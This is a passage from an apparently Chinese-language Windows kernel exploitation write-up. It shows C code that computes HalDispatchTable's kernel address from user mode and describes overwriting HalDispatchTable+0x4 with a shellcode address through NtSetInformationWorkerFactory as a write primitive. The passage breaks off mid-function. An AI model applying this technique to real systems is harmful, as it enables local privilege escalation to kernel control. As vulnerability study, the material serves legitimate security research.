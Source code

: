  

![](https://bbs.pediy.com/upload/attach/202206/156241_PS9KHZVNN4TQPSX.png)

 

获取一个导出的符号地址， 在 R3 中使用 LoadLibrary + GetProcAddress 的经典组合就可以搞定了， 唯一需要注意的是需要根据 ntoskrnl.exe 在内核中实际加载的基址重新计算一下导出名称的地址 (参考 2)：

```
PSYSTEM_MODULE_INFORMATION Info = (PSYSTEM_MODULE_INFORMATION)malloc(cbNeed); 
 
Status = MyNtQuerySystemInformation(11, Info, cbNeed, &cbNeed); 
if (!NT_SUCCESS(Status)) 
{ 
    printf("MyNtQuerySystemInformation Failed %p\n", Status); 
    return 0; 
} 
 
// Info 中存放 ntoskrnl.exe 即nt模块的基本信息 
DWORD Ntbase = Info->Module[0].Base; // nt模块的加载基址 
 
// Info->Module[0].ImageName 存放nt模块的全路径， 我们需要切出文件名 
HMODULE Mynt = LoadLibrary(Info->Module[0].ImageName + Info->Module[0].OffsetToFileName); 
if (Mynt == NULL) 
{ 
    printf("LoadLibrary Nt Failed\n" ); 
    return 0; 
} 
 
// 重新计算HalDispatchTable的地址 
MyHalDispatchTable = (ULONG)GetProcAddress(Mynt, "HalDispatchTable") - (ULONG)Mynt + Ntbase; 
if (MyHalDispatchTable == NULL) 
{ 
    printf("Get HalDispatchTable Failed %p\n", GetLastError()); 
    return 0; 
}
```

OK， 现在我们知道了 HalDispatchTable 的地址， 我们下一步只需要向 HalDispatchTable+0x004 位置处写入我们 Shellcode 函数地址就可以了——可是我们如何写呢？ 接下来让我们回答上一节的问题：

> “在获取到 HalDispatchTable 中地址后， 如何向这个地址写入我们 Shellcode 的地址”

#### 写原语

Windows 有一个很有意思的设计，为了管理内核对象， Windows 提供了很多配套函数， 这些函数都是成组出现的， 其基本形式为： NtCreateXXX/NtQueryInformationXXX/NtSetInformationXXX。这三类函数一般用于创建内核对象或查询 / 设置该内核对象的信息。

 

如果要尝试构造任意地址写， NtSetInformationXXX 系列函数是个不错的选择， 而漏洞发现者选取的内核对象为 WorkerFactory， 即 “受害” 函数是 NtSetInformationWorkerFactory， 让我们先来理解一下这个函数（仅列出重要部分）：

```
NTSTATUS __stdcall NtSetInformationWorkerFactory(HANDLE Handle, int QueryClassInformation, DWORD *Data, SIZE_T CbData) 
{ 
  DWORD *v7; // eax 
  DWORD v10; // edi 
  PVOID WorkerFactoryObject; // [esp+3Ch] [ebp-1Ch] BYREF 
  ………… 
  v5 = 4; 
  if ( CbData != v5 ) 
    return STATUS_INFO_LENGTH_MISMATCH; 
  ………… 
  if ( QueryClassInformation == 8 ) 
  { 
    ………… 
```